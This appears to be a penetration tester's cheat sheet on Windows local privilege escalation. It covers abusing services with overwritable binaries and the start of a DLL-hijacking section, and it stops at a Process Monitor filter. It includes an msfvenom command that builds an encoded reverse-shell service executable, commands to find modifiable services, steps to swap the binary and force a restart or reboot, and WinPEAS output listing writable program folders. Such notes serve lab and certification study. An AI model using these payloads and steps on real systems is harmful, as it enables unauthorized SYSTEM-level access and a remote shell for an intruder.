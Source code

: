 
MSFVenom payload:
```
msfvenom -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -f exe-service -o winshell.exe LHOST=IP LPORT=PORT
```

Finding a service:
```
// Important: only works in "interactive situations". If it throws an error, it's not interactive. Then, use Winpeas.exe --> "Services Information", always works.
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
// OR
. .\PowerUp.ps1
Get-ModifiableServiceFile                  // might not always work
```

If there is a vulnerable service (overwritable binary), replace the binary.
To start/reboot the service:

```
sc.exe stop ServiceName
sc.exe start ServiceName
```
If this gets denied, check if reboot privileges are enabled:
```
whoami /priv
shutdown /r /t 0
```



#### DLL Hijacking
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking
```
 
   =================================================================================================                   
   
    GammaService(GammaService)[C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe] - System - isDotNet - No quotes and Space detected                                                                                              
    File Permissions: Users [WriteData/CreateFiles]                                                                                                                                                                                            
    Possible DLL Hijacking in binary folder: C:\Program Files\Enterprise Apps\Current Version (Users [WriteData/CreateFiles])                                                                                                                  
   =================================================================================================    
 // PART REMOVED
 // PART REMOVED
 // PART REMOVED 
 Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software                                                                                                          
    C:\Program Files\7-Zip                                                                                                                                                                                                                     
    C:\Program Files\Common Files                                                                                                                                                                                                              
    C:\Program Files\desktop.ini                                                                                       
    C:\Program Files\Enterprise Apps(Users [WriteData/CreateFiles])                                                                                                                                                                            
    C:\Program Files\Internet Explorer                                                                                                                                                                                                         
    C:\Program Files\KeePass Password Safe 2                                     
```
The `C:\Program Files\Enterprise Apps` is writable by the user, and hosts DLLs.

To check which DLLs are called, copy the executable to the Windows VM and run Process monitor with these filters:
```
result contains "Not found"

```